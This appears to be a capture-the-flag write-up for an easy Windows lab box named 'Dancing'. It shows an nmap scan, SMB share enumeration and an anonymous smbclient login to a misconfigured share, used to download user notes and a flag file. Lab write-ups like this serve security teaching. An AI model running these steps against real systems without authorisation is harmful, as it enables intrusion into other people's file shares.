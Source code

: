 # Box: 
Name: Dancing
ID: 3
Difficulty: Easy

## 🧠 Attacker Environment
- **Host OS**: Parrot Security OS (VM)

## 🛠️ Tools Used
  - `ping`
  - `nmap`

## 🎯 Target Environment
- **Ip Address**: 10.129.10.250
- **OS**: Windows

## 🧠 Recon
Nmap Scan:
```bash
nmap -sV 10.129.10.250
```
## 🔍 Enumeration
- Found an open port **135/tcp**, running **msrpc** service
- Found an open port **139/tcp**, running **netbios-ssn** service
- Found an open port **445/tcp**, running **microsoft-ds?** service

## 💥 Exploitation
Logged in via SMB:
```bash
smbclient -L 10.129.10.250
```
## Shares Available
- **ADMIN$**: hidden network shares created by Windows NT that allows admins to have remote access to every disk volume on a network-connected system
- **C$** Admin share for the C:\ disk volume
- **IPC$**inter-process communication share (not part of file system)
- **WorkShares$**custom share

## Authentication
````bash
smbclient \\\\10.129.10.250\\ADMIN$ = ❌
smbclient \\\\10.129.10.250\\C$ = ❌
smbclient \\\\10.129.10.250\\WorkShares = ✅ **Success** 
````

## File Discovery
1. Used ls to list all contents of the share:
```bash 
smb: \> ls
```
2. Found two directories:
Amy.J
James.P

3. Navigated into the Amy.J directory and retrieved notes:
```bash 
smb: \> cd Amy.J
smb: \Amy.J\> ls
smb: \Amy.J\> get worknotes.txt
```
4. Went back and accessed James.P:
```bash 
smb: \Amy.J\> cd ..
smb: \> cd James.P
smb: \James.P\> ls
smb: \James.P\> get flag.txt
```
## 🔐 Privilege Escalation
Not required - accessed another user's desktop via SMB

## 🧼 Cleanup & Lessons
- smbclient session closed cleanly
- **Key takeaways**: 
- Enumerate all shares, always try no password
